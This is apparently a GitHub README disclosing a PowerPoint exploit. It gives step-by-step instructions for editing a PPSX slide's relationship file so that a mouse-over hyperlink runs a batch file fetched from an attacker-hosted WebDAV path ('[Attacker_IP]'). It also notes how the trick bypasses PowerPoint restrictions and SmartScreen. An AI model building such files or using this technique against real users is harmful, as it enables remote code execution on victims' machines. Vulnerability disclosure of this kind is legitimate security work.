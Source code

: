 ## Steps to reproduce the exploit

1. In Powerpoint it is possible to set an action on a mouse over or mouse click 

2. We can set a file to be executed and this was exploited by attackers in 2017 where a particular powershell command could be run 

3. Since that vulnerability was patched, this one is an extension to it where instead of using "Run Program" action we use "HyperLink To" action and set it to a "Other file"

4. Then we can select a file within the system.

5. Save the Powerpoint file as PPSX or PPS

6. Then open the PPSX file using a ZIP program and change the value in "\ppt\slides_rels\slide1.xml.rels"  of rID which is connected to your mouse over event to "file:///\[Attacker_IP]\webdavfolder\file.bat"

7. Due to the way SMB connections work in Windows 10, SMB connections over Internet are possible even if SMB ports (445/139) are closed  if a webserver supporting WEBDAV extension is hosted by an attacker

8. Now hover over your the text and observe that user just needs to acccept the pop-ups and this allows the program to be executed

9. Combined with social engineering this attack would work completely.

## Note:
1. The attack is able to bypass the Powerpoint's restriction of not being able to add a remote file to the HyperLink action which if we try to add using the GUI, we will see Powerpoint complaining about it

2. Also if a HTTP/HTTPS url is linked with the hyperlink action, then the OS would download the file using a browser on the system at which point Windows Defender/Smartscreen would kick in indicating that it is an untrusted file and even if we hit 'Run', it will quartine the file, so an attacker can bypass that using this method

3. MSRC was contacted about the vulnerability, but they decided to ignore it and stated that since it requires social engineering attack, they are not willing to fix it

![](exploit.gif)
